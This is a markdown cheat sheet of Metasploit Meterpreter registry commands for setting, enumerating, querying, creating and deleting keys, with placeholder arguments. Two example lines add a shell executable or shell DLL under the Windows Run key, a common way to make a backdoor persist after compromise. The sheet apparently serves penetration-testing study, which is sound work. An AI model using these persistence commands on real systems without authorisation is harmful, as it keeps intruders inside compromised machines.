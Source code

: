 # Metasploit

## 01 - Add Registry Key Syntax

Set registry key value.

```
meterpreter > reg setval [-r <target_IP>] -k <hive_name>\\path\\to\\registry\\key -v <value> -t <registry_type> -d 'C:\path\to\shell.exe'

meterpreter > reg setval [-r <target_IP>] -k HKLM\\SOFTWARE\\Microsoft\\CurrentVersion\\Run -v <value> -t REG_SZ -d "rundll32.exe C:\path\to\shell.dll,ExecDLL" [-w <32 | 64>]
```

Syntax registry meterpreter command.

```
meterpreter > reg <command> [-r <target_IP>] -k <hive_name>\\path\\to\\registry\\key -v <registry_value> -t <registry_type> [-w <32|64>]
```

Enumerate registry key.

```
meterpreter > reg enumkey [-r <target_IP>] -k <hive_name>\\path\\to\\registry\\key [-w <32|64>]
```

Query registry key value.

```
meterpreter > reg queryval [-r <target_IP>] -k <hive_name>\\path\\to\\registry\\key -v <value> [-w <32|64>]
```

Create registry subkey.

```
meterpreter > reg createkey [-r <target_IP>] -k <hive_name>\\path\\to\\registry\\new_key [-w <32 | 64>]
```

Query registry keys

```
meterpreter > reg queryclass [-r <target_IP>] -k <hive_name>\\path\\to\\registry [-w <32|64>]
```

## 02 - Delete Registry Key Syntax

Delete registry key value.

```
meterpreter > reg deleteval [-r <target_IP>] -k <hive_name>\\path\\to\\registry\\key -v <value>

meterpreter > reg deleteval [-r <target_IP>] -k HKLM\\SOFTWARE\\Microsoft\\CurrentVersion\\Run -v <value>
```

---
## References

### Metasploit

- [Metasploit Documentation: Meterpreter Registry Command](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-reg-command.html)